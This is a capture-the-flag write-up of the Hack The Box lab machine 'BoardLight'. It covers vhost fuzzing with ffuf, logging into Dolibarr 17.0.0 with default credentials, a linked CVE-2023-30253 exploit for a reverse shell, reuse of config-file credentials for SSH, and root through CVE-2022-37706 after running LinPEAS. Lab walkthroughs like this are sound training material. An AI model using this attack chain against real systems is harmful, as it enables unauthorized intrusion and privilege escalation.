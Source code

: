 # BoardLight (Linux)

# nmap 
22
80

## http

We have a couple of forms that seem to be sending something. 
We can click on the bottom footer **Board.htb** and takes us to **html.design**. 

I initially did not get anything from ffuf. 
Tried a simple xss script on the contact us form but nothing as well. Maybe it is stored XSS.

The footer domain got my attention again. Tried to put it in the url but got nothing (silly me).

I added it to my **/etc/hosts/** and ran the url again. 

Ran **ffuf** again and a new Vhost: `ffuf -u http://board.htb/ -H "HOST:FUZZ.board.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt`

Added the new Vhost to **/etc/hosts** and ran the new url. 

I get a login page that uses **Dolibarr 17.0.0**. Tried **admin admin** and got in. 

# Dolibarr 

I dont see mucn from the login page. But we do know the verision number. 

Looked up an exploit and found this, https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253?tab=readme-ov-file.

From following the POC I was able to gain a reverse shell. 


# Reverse Shell 

I used **cd** and that is when I found the directory where it took me to **crm.board.htb/htdocs/conf** and was able to get a password. 

## SSH larissa

I got the passsword and I saw from the previous shell that there was only one user I had access to but did not had persmission to get into. 
Now I used this password and logged in as larissa.

**cat** first flag. 

We were not able to use `sudo -l`

After not getting much for a while I decided to use **linpeas**

I had to first host **./linpeas.sh** on a http server using python.

Then from the target's machine I used `wget http:ip:port/linpeas`

### linpeas

With linpeas I was able to find:
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)

`enlightenment --version`:
Version: 0.23.1

# Exploit 

Found this, https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh. 
And used **nano** to add the code into the targets machine.
`chmod +x exploit.sh`
Then I ran it and got root access. 

PWNED!

# **Summary**
This box was all about **proper enumeration** and **chaining exploits effectively**. The initial foothold came from recognizing a **suspicious domain in the footer**, leading me to a hidden **Vhost** after adding it to `/etc/hosts`. Brute-forcing subdomains with **ffuf** uncovered a login panel for **Dolibarr 17.0.0**, where I got in using **default credentials**. From there, a **public exploit (CVE-2023-30253)** allowed me to gain a **reverse shell**.

Once inside, I found **stored credentials** in a configuration file, which let me SSH into a user account (**larissa**). Without sudo privileges, I ran **LinPEAS**, which flagged **SUID binaries** tied to an outdated version of **Enlightenment (0.23.1)**. Exploiting **CVE-2022-37706** gave me **root access**, finishing the box.

## **Key Takeaways**
- **Enumeration is everything** – The Vhost discovery was a game-changer.
- **Web apps love to leak credentials** – The config file gave me SSH access.
- **Chaining exploits is the real skill** – Each step built on the last.
- **Privilege escalation is about patience** – LinPEAS made finding the exploit path simple.
- **Always check for default credentials** – They work more often than expected.

## **Things to Remember**
- **Add found domains to `/etc/hosts`** to check for hidden services.
- **Run `ffuf` on Vhosts**—you never know what might show up.
- **Config files often contain sensitive data**—always check them.
- **LinPEAS should be second nature** for privilege escalation.
- **Keep a mental (or physical) list of useful CVEs** for common software.

This box was a solid reminder that **exploitation isn’t about knowing everything—it’s about knowing where to look**.

